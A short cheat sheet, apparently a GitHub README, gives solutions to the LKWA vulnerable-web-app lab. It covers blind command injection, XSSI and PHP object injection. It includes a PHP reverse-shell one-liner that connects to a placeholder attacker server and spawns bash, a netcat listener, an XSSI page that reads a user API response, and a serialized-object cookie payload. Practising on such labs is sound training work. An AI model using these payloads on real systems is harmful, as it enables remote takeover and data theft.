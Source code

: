 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

<img src="https://github.com/fujiokayu/lkwa-cheatsheet/blob/master/evidence/0x02.png" width="200">

## 0x03 – PHP Object Injection

skip.  
I coudn't upload a shell.

## 0x04 – PHP Object Injection(cookie)

change cookie and inject php object as follows:  
O%3A3%3A%22Foo%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%0D%0A

## 0x05 – PHP Object Injection(Object Reference)


